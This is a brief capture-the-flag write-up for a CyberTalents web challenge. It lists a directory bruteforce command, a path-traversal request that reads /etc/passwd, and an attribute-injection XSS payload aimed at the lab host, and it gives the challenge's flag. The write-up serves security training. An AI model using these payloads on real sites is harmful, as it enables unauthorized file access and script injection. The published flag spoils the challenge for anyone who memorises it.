

# Solve V13w3r
#### https://cybertalents.com/challenges/web/v13w3r

### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m873od4miwzy0j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

### Try LFI
`http://wcamxwl32pue3e6m873od4miwzy0j6zqdkgxu639-web.cybertalentslabs.com/index.php?link=../../etc/passwd`

The url must have `http://`
### Try XSS
`http://wcamxwl32pue3e6m873od4miwzy0j6zqdkgxu639-web.cybertalentslabs.com/index.php?link=http://www.test.com/ onload="alert('m_1337')"`

flag{loOks_You_ar3_xSs_mast3r_1337}

>Find More on ==> github.com/MedhatHassan 
